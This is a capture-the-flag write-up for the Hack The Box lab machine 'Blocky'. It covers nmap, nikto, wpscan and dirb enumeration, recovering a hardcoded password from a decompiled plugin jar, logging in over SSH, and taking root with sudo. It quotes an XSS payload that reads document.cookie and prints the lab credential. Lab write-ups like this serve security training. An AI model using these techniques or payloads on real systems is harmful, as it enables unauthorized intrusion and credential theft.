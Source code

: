 +++ 
title = "Blocky HTB Write up"
description = "Write up for the HTB machine 'Blocky'"
author = "greatmoves"
tags = ["wordpress", "sudo -l", "dirbuster", "wpscan", "minecraft" , "hackthebox"]
+++

## Recon
----
### nmap
cmd: `nmap -sC -sV {target-ip}`

Our nmap scan reveals port port 21-ftp, 22-ssh and port 80-http.

### nikto
cmd: `nikto -host {target-ip}`

Our nikto scan reveals the site is vulnerable to XSS
```
/modules.php?letter=%22%3E%3Cimg%20src=javascript:alert(document.cookie);%3E&op=modload&name=Members_List&file=index: Post Nuke 0.7.2.3-Phoenix is vulnerable to Cross Site Scripting (XSS).
```

It also reveals the url for the web application, `blocky.htb`, so let's add that to /etc/hosts

### wpscan
cmd: `wpscan --url http://blocky.htb -e u `

Scrolling to the bottom of the web app we can see that it is powered by WordPress, so let's run wpscan

from wps scan we can see that there is a user `notch`

### dirbuster
cmd: `dirb http://blocky.htb`

since we know it is a WordPress site, let's also run dirbuster to see what else we can find

after the scan has run let's enumerate through the directories it found.

at `/plugins` there are two files that we can download

### jd-gui
cmd: `jd-gui BlockyCore.jar`

using `jd-gui` we can decompile both of the `.jar` files

in `BlockyCore.jar` we can see `BlockyCore.class` where we can find the password `8YsqfCTnvxAUeduzjNSXe22`

from there we are able to ssh in to the machine with the credentials
```
notch:8YsqfCTnvxAUeduzjNSXe22
```

## Privilege escalation
----
`sudo -l` reveals:

```
User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
```

which is not that exciting because we just enter the command `sudo su` and we are root!

navigate to `/home/notch` for `user.txt` and `/root` for `root.txt`.